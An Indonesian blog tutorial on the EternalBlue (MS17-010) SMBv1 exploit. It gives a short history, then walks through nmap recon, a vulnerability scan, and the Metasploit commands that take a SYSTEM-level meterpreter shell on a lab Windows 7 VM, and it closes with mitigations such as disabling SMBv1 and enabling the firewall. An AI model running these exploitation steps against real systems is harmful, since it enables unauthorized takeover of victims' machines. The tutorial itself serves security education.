 ```yaml
---
title: "Eternalblue (MS17-010) - Eksploit untuk SMBv1"
date: 2024-03-21T18:54:33+07:00
draft: false
cover:
  image: "/eternalblue/cover.png"
  alt: 'Eterbalblue (MS17-010)'
  caption: "eternalblue - metasploit"
tags: ["metasploit", "tutorial", "cyber security"]
categories: ["hacking"]
---
```


# Sejarah (Singkat)

Apa itu Eternalblue?

Eternalblue atau oleh Microsoft disebut dengan MS17-010 adalah sebuah [**exploit**](https://en.wikipedia.org/wiki/Exploit_(computer_security)) yang dapat digunakan untuk menyebarkan ***malware*** pada sebuah mesin Windows. Eternalblue adalah eksploit yang pada awalnya ditemukan oleh [NSA (_National Security Agency_) Amerika Serikat](https://www.nsa.gov/) untuk memanfaatkan kerentanan pada SMB v1 (_Server Message Block_ versi 1)  di Windows, terutama pada Windows 7 dan Windows XP.[^1] 

Exploit ini tidak dilaporkan oleh NSA ke pihak Microsoft karena menguntungkan pihak NSA untuk melakukan mata-mata terhadap lawan-lawan politiknya. Ketika NSA mengetahui bahwa ternyata exploit tersebut sudah bocor (dicuri), Microsoft akhirnya mengumumkan *security pacthes* terhadap kerentanan atau *vulnerability* tersebut pada Maret 2017. Exploit tersebut dibocorkan kepada publik oleh sebuah kelompok ***hacker*** bernama [The Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) pada April 2017. Segera setelah rilisnya exploit tersebut ke publik, pada May 2017, dilaporkan [*ransomware* Wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) mulai menginfeksi banyak komputer di seluruh dunia menggunakan exploit Eternalblue tersebut[^2].

# Demo Exploitasi - Offensive

Saya akan memberikan demo eksploitasi kerentanan SMBv1 ini menggunakan exploit Eternalblue (MS17-010) yang sudah terdapat dalam [Metasploit](https://www.metasploit.com/). 
Secara singkat, Metasploit adalah sebuah ***framework*** berbasis [*open-source*](https://en.wikipedia.org/wiki/Open_source) yang digunakan untuk *exploit development* dan *vulnerability research*.
![ss1](/eternalblue/ss1.png)

Kita akan melakukan setidaknya 3 proses untuk melakukan eksploitasi, yaitu
- Recon
- Vulnerability Scanning, dan
- Exploitation

## Recon

Di sini, saya sudah memiliki sebuah mesin VM *(Virtual Machine)* Windows 7 sebagai target yang akan dieksploitasi kerentanan SMB-nya.
Pada tahap ini, kita akan terlebih dahulu melakukan *reconnaissance* atau pemeriksaan (atau dalam bahasa militernya adalah mata-mata) terhadap target yang akan dieskploitasi. 
Hal yang perlu dipastikan dalam tahap dan konteks ini adalah bahwa **_service_ SMBv1 berjalan di mesin target**.
![ss2](/eternalblue/ss2.png)

Saya akan menggunakan [Nmap](https://nmap.org/) untuk melakukan proses recon ini.
```bash
nmap -vv -sV 192.168.0.120 -o result.nmap
```
![ss3](/eternalblue/ss3.png)

Dari hasil Nmap tersebut, kita tahu bahwa _service_ SMB sedang *running*. 

Port *`139`* dan *`445`* adalah port default untuk menjalankan _service_ SMB ini.
![ss4](/eternalblue/ss4.png)

## Vulnerability Scanning

Setelah mengetahui bahwa target mesin tersebut (Windows 7) menjalankan SMB, sekarang, kita akan melakukan _vulnerability scanning_ untuk melihat, apakah SMB tersebut rentan untuk dieksploitasi.

Untuk tahap ini, saya lagi-lagi akan menggunakan Nmap dengan script `smb-vuln-ms17-101.nse` yang juga terdapat di **/usr/share/nmap/scripts**.
```bash
nmap -vv -sV --script=smb-vuln-ms17-010.nse -p139,445 192.168.0.120 -o vuln.nmap
```
![ss8](/eternalblue/ss8.png)
Ya, berdasarkan hasil *scanning* Nmap, kita tahu bahwa *service* SMB tersebut rentan (*vulnerable*) terhadap eksploitasi Eternalblue.

## Exploitation

Sekarang, kita akan melakukan eksploitasi terhadap kerentanan tersebut.
Saya akan menggunakan Metasploit sebagai *tools* dalam melakukan tahap eksploitasi ini. 

Pertama, kita dapat menjalankan Metasploit dengan mengetikkan perintah
```bash
msfconsole -q
```

Selanjutnya, kita akan mencari modul eksploit Eternalblue dan menginputkan IP Address target mesin kita (Windows 7) ke opsi **RHOSTS**.
```bash
msf6> search eternalblue
msf6> use 0
msf6> set rhosts 192.168.0.120
```
![ss9](/eternalblue/ss9.png)

Kita bisa memastikan semua opsi untuk melakukan eksploitasi di modul Eternalblue (MS17-010) ini sudah terpenuhi dengan mengetikkan perintah berikut:
```bash
msf6> options
```
![ss10](/eternalblue/ss10.png)
Lingkaran yang berwarna merah adalah IP target kita (Windows 7). Adapun lingkaran yang berwarna hijau adalah IP mesin *attacker* kita (Kali Linux).

Untuk memulai eksploitasi, kita dapat mengetikkan perintah
```bash
msf6> exploit
```
atau
```bash
msf6> run
```
![ss11](/eternalblue/ss11.png)

Yapp, kita baru saja berhasil mengeksploitasi SMBv1 dengan eskploit Eternalblue (MS17-010)!!!

Ketika kita sudah mendapatkan shell tersebut (meterpreter), kita sebagai *attacker* sudah dapat melakukan apa saja, mulai dari melakukan *screenshot*, *screen recording*, *camera recoding*, dan lain-lain yang pada intinya, kita sudah seperti memiliki atau memegang komputer atau laptop dengan Windows 7 tersebut!

Apalagi, kalau diperhatikan, Eternalblue ini memberikan kita akses shell dengan *privilege* yang tinggi (nt authority\system32) atau root jika di Linux. Artinya, kita benar-benar sudah menguasai mesin korban tersebut.

Dengan melihat kemudahan eksploitasinya dan dampak aksesnya, kita bisa menyimpulkan bahwa eksploit ini sangat berbahaya sekali, bukan?

# Pencegahan - Defensive

Beberapa hal yang dapat kita lakukan sebagai tindakan preventif terhadap exploitasi Eternalblue ini di Windows 7 yaitu:
1. Mematikan *service* SMBv1, apalagi jika kalian tidak sering (atau bahkan) tidak pernah menggunakan *service* ini untuk *file sharing*. 
Cara menonaktifkan SMBv1 dapat dilakukan dengan mengetikkan perintah berikut di Powershell[^3]:
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 0 -Force
```
2. Selain itu, kalian juga perlu memastikan Firewall tidak dihidupkan disembarang jaringan, apalagi jaringan publik. Kalau perlu, hidupkan saja firewallnya, baik di *private* maupun di *public network*.
![ss12](/eternalblue/ss12.png)

Ok, sekian dulu untuk tutorial eksploitasi Eternalblue (MS17-010) kali ini.

Terima kasih!


[^1]: https://nordvpn.com/blog/what-is-eternalblue/
[^2]: https://en.wikipedia.org/wiki/EternalBlue
[^3]: https://learn.microsoft.com/id-id/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server

